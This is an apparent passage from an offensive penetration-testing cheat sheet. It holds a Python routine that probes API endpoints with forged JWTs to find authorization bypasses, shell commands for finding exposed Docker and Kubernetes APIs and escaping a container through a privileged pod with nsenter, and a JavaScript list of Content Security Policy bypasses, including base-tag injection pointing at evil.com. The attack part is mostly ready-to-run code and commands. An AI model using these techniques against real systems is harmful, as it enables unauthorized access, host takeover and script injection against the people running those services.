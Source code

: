 ```python

        return attacks

    def jwt_service_confusion(self, gateway):
        """
        Services might validate different JWT claims
        Gateway checks 'aud', Service A checks 'scope', Service B checks nothing
        """
        tokens = [
            self.craft_jwt(aud='valid', scope='invalid'),
            self.craft_jwt(aud='invalid', scope='valid'),
            self.craft_jwt()  # No claims
        ]

        for token in tokens:
            # Test each service endpoint
            for service in ['/api/users', '/api/admin', '/api/data']:
                response = requests.get(f"{gateway}{service}",
                                       headers={'Authorization': f'Bearer {token}'})
                if response.status_code == 200:
                    print(f"[+] Bypass found: {service} with token claims: {decode_jwt(token)}")
```

### Container Escape Techniques
```bash
# Docker API exposure check
curl http://target:2375/version
curl http://target:2376/version

# Kubernetes API discovery
curl https://target:6443/api/v1
curl http://target:8080/api/v1

# Container escape via privileged pod
kubectl run evil --image=evil/image --privileged=true
kubectl exec -it evil -- nsenter -t 1 -m -u -i -n -p bash
```

---

## 🛡️ Modern Evasion Techniques

### CSP Bypass Collection
```javascript
const CSPBypass = {
    // Bypass script-src
    scriptSrc: {
        'self': "Upload malicious JS to same origin",
        'unsafe-inline': "Direct inline script injection",
        'unsafe-eval': "eval() or Function() constructor",
        'strict-dynamic': "Use existing script to load more scripts",
        'nonce-based': "Reuse/predict nonce values",
        'cdn.example.com': "Find JSONP endpoint on whitelisted CDN"
    },

    // Bypass via base-uri
    baseUri: {
        technique: "Inject <base href='http://evil.com/'>",
        impact: "All relative URLs now load from attacker domain"
    },

    // Bypass via object-src
    objectSrc: {
```